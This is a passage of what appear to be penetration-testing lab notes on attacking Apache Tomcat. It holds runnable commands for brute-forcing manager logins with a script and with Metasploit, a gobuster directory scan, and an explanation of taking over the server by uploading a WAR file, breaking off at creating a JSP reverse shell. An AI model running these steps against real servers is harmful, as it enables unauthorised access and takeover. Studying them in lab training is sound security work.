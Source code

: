  
Run it:

```
python tomforce.py -U http://web01.inlanefreight.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt 
```


#### Metasploit

Brute force login with metasploit

```
msfconsole -q
use auxiliary/scanner/http/tomcat_mgr_login
setg RHOSTS 10.129.201.58
setg RPORT 8180
set VHOST web01.inlanefreight.local
run
```

For troubleshooting we could proxy out metasploit connection with the option `PROXIES`:

```shell-session
 set PROXIES HTTP:127.0.0.1:8080
```



## Directory enumeration


```shell-session
gobuster dir -u http://web01.inlanefreight.local:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt 
```


## ## WAR File Upload

Many Tomcat installations provide a GUI interface to manage the application. This interface is available at `/manager/html` by default, which only users assigned the `manager-gui` role are allowed to access.

Valid manager credentials can be used to upload a packaged Tomcat application (.WAR file) and compromise the application.

A WAR, or Web Application Archive, is used to quickly deploy web applications and backup storage. A WAR file can be created using the zip utility.


A WAR file can be created using the zip utility.


### WAR file with ZIP utility

**1.** We create a .jsp reverse shell, and save it under name cmd.jsp
